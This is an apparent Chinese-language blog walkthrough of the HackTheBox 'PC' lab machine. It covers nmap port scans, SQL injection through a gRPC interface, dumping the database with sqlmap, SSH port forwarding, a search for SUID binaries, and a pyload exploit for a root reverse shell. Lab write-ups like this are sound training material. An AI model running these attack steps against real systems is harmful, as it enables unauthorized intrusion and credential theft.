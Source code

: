 ```yaml
---
layout: post
title: hackthebox PC
categories: [blog ]
tags: [渗透测试,]
description: "hackthebox PC 1"
image:
  feature: windows.jpg
  credit: Azeril
  creditlink: azeril.com
 

---
```


`测试`

![](/img/swirl/11.jpg)

## 介绍一下使用步骤

打开靶场的右上角链接

![](/img/8/image-20230918204357025.png)

选择第一个机器链接



![](/img/8/image-20230918204429149.png)

然后下载这个vpn

![](/img/8/image-20230918204510905.png)

直接下载vpn用kali打开，然后直接 openvpn 文件名即可，通过ifconfig

![](/img/8/image-20230918204718524.png)

然后开启题目，直接扫描题目网址

![](/img/8/image-20230918204228914.png)

## 正式开始

直接用nmap扫描端口，只发现了一个22端口，没什么用只好（润去看wp)

![](/img/8/image-20230918204827399.png)

```java
nmap -p- -sC --min-rate 5000 10.10.11.214
sudo nmap -sS 10.10.11.214 --min-rate=10000 -p22,50051 -sV -A 细扫端口
-p- 扫描主机所有端口即65535
-sC  默认的脚本扫描。
--min-rate 5000 最小发送速率为5000个数据库/秒
```

![](/img/8/image-20230918210051429.png)

![](/img/8/image-20230918210945898.png)

`kali配置go环境`

https://blog.csdn.net/WHQ556677/article/details/122283509

配置[fullstorydev/grpcui：gRPC的交互式Web UI，类似于邮递员 (github.com)](https://github.com/fullstorydev/grpcui)

。。尝试了很久无望，从bilibili上看个视频剖析只能（qaq）



打开以后界面是这样的

![](/img/8/image-20230918222819684.png)

![](/img/8/image-20230918223131912.png)

admin登陆获得id、和token

然后请求对应的token

![](/img/8/image-20230918223210148.png)

然后通过'的回显，看回显来判断出sql注入

![](/img/8/image-20230918223315245.png)

然后右击copy to file保存为r.txt文件

然后

![](/img/8/image-20230918223728556.png)

sudo sqlmap -r r.txt --batch --dbms=sqlite --dump

![](/img/8/image-20230918223932074.png)

`然后链接ssh密钥   ssh 用户名@url`

![](/img/8/image-20230918224002338.png)

`查看user.txt文件的内容`

![](/img/8/image-20230918224158895.png)

`ss -tnl 查看当前端口`

![](/img/8/image-20230918224521421.png)

`curl http://127.0.0.1:8000 -i 获得头部响应信息`

![](/img/8/image-20230918224756337.png)

`ssh -L 9000:127.0.0.1:8000 sau@pc.htb`

将8000端口转发到本地用浏览器访问

然后本地查看是否转发成功

![](/img/8/image-20230918225046138.png)

`查看 ps -ef | grep pyload`

```java
查看含有"pyload"的活动进程
    或者搜索提权命令
    find /* -perm u=s 2>/dev/null
    
    root用户执行考虑是否能提权
```

![](/img/8/image-20230918225633776.png)

直接网站搜索 pyload exploit漏洞

反弹shell提权

![](/img/8/image-20230918230256877.png)